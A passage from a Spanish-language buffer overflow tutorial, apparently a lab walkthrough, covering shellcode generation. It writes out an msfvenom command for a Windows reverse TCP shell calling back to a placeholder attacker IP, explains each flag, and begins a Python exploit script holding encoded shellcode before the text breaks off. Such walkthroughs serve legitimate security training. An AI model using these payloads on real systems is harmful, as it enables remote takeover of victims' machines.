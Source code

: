 

<hr style="border: none; height: 10px; background-color: #003b00;" />

## <font color="#008f11">10. Generación de Shellcode.</font>

<hr style="border: none; height: 10px; background-color: #003b00;" />

En esta etapa final, el objetivo es generar el **shellcode** necesario para obtener acceso remoto a la máquina objetivo. Para lograrlo, se utiliza la herramienta **MSFvenom**, que forma parte del framework **Metasploit**, y permite crear un shell inverso que será ejecutado en la máquina vulnerable.

### Utilización de MSFvenom

**MSFvenom** es una herramienta poderosa para generar payloads (cargas útiles) con diferentes opciones y configuraciones. En este caso, se generará un **shell inverso** que permita a la máquina víctima conectarse de vuelta a la máquina atacante.

### Comando para generar shellcode

El comando para generar el shellcode se compone de varios parámetros clave:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP_ATACANTE LPORT=4444 -f c -a x86 -b "\x00"
```

* **-p windows/shell_reverse_tcp**: Este es el payload que se usará, en este caso, un shell inverso para sistemas Windows que utiliza el protocolo TCP.
* **LHOST=IP_ATACANTE**: Aquí se debe especificar la dirección IP de la máquina atacante, es decir, la máquina desde la cual se controlará el ataque.
* **LPORT=4444**: El puerto en el que se escuchará la conexión desde la máquina víctima. En este ejemplo se usa el puerto 4444, pero puede ser cualquier puerto abierto en la máquina atacante.
* **-f c**: Este parámetro indica que el formato de salida del shellcode será en lenguaje C, para facilitar su inclusión en el script de Python.
* **-a x86**: Se especifica que el shellcode debe ser compatible con una arquitectura x86.
* **-b "\x00"**: La opción -b permite excluir ciertos caracteres del shellcode. En este caso, se excluye el byte nulo (\x00), ya que este puede causar problemas en la ejecución.

### Ejecución de MSFvenom

Al ejecutar el comando anterior, MSFvenom generará el shellcode, que será una cadena de bytes en formato hexadecimal. Un ejemplo del resultado sería algo similar a lo siguiente:

```c
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52..."
```

Este código es la carga útil que se inyectará en la máquina víctima.

### Inclusión del Shellcode en el Script

Una vez generado el shellcode, se debe incluir en el script de Python que se ha estado utilizando. Para ello, se define una variable que contenga el shellcode y se añade al flujo del ataque.

```python
#!/usr/bin/python
import sys, socket

overflow = (
"\xba\x49\xb4\x42\x37\xdb\xdd\xd9\x74\x24\xf4\x5e\x2b\xc9"
"\xb1\x52\x31\x56\x12\x03\x56\x12\x83\xa7\x48\xa0\xc2\xcb"
"\x59\xa7\x2d\x33\x9a\xc8\xa4\xd6\xab\xc8\xd3\x93\x9c\xf8"
"\x90\xf1\x10\x72\xf4\xe1\xa3\xf6\xd1\x06\x03\xbc\x07\x29"
"\x94\xed\x74\x28\x16\xec\xa8\x8a\x27\x3f\xbd\xcb\x60\x22"
"\x4c\x99\x39\x28\xe3\x0d\x4d\x64\x38\xa6\x1d\x68\x38\x5b"
"\xd5\x8b\x69\xca\x6d\xd2\xa9\xed\xa2\x6e\xe0\xf5\xa7\x4b"
"\xba\x8e\x1c\x27\x3d\x46\x6d\xc8\x92\xa7\x41\x3b\xea\xe0"
"\x66\xa4\x99\x18\x95\x59\x9a\xdf\xe7\x85\x2f\xfb\x40\x4d"
```